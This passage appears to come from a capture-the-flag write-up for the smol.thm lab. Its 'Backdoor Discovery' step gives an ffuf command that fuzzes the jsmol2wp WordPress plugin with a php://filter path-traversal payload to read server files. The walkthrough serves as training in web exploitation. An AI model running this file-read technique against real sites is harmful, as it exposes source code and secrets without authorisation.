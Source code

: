 ![webmaster](images/ntoes.png)


### 5. Backdoor Discovery

Fuzzing for Backdoors:
```bash
ffuf -u "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../FUZZ" -w /usr/share/wordlists/dirb/big.txt -fs 0 --fw 1 -e .php
```
